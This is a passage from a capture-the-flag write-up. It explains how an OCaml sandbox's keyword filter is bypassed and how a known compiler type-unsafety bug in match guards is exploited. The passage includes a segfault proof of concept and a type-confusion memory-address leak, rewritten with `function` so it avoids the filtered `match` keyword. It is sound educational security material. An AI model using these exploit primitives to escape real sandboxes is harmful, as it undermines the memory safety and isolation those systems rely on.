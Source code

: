 ...wait a sec, this is a `match` expression without the `match` keyword! It
passes the string filter, and so we can use the SECCON 2020 solution with the
`match` type unsafety, without using the bug that TSG provided!

## The unintentional bug

I'm not very good with OCaml code, so after a few attempts of trying and failing
to adjust the `cache` function to do what I wanted (without using `match`), I
decided to instead just rewrite the SECCON 2020 exploit to avoid the `match`
keyword.

A quick background on this bug: it turns out that the OCaml compiler contains a
[real type unsafety bug](https://github.com/ocaml/ocaml/issues/7241) relating to
mutations within `match` expressions, which has not been fixed in over five
years. From the SECCON 2020 writeup, the following code will segfault:

```ocaml
type u = {a: bool; mutable b: int option}

let f x =
  match x with
    {a=false} -> 0
  | {b=None} -> 1
  | _ when (x.b <- None; false) -> 2
  | {a=true; b=Some y} -> y

let _ = f {a=true; b=Some 5}
```

Match arms are tested in sequence; for this particular input, only the last
match arm should match. However, the third match arm overwrites `x.b` with
a `None`, which causes the final match arm to dereference `None` and crash.
This can be used as the basis for a type confusion exploit. The SECCON post
comes with an exploit, but it uses a ton of hardcoded constants which I could
not successfully adjust. Instead, I focused on the core of the type confusion
exploit, which looks like this (slightly rewritten):

```ocaml
type s = A of int | B of string
let leak (x1,x2) s =
  match (x1,x2) with
    (false,_) -> 0
  | (_,{contents=B _}) -> 1
  | _ when (x2 := B(s); false) -> 2
  | (true, {contents=A y}) -> y

let x = leak (true, ref (A 1)) "asdf" * 2
let _ = Printf.printf "0x%x\n" x
```

This prints out a memory address corresponding to the address of the string `"asdf"`. We can rewrite this without
the `match` keyword:

```ocaml
type s = A of int | B of string
let leak s = function
    (false,_) -> 0
  | (_,{contents=B _}) -> 1
  | (x1,x2) when (x2 := B(s); false) -> 2
  | (true, {contents=A y}) -> y

let x = leak "asdf" (true, ref (A 1))  * 2
let _ = printf "0x%x\n" x
```

which passes all restrictions and still prints out a memory address! So, at this
point, we can abuse the type system, and we didn't even have to use the provided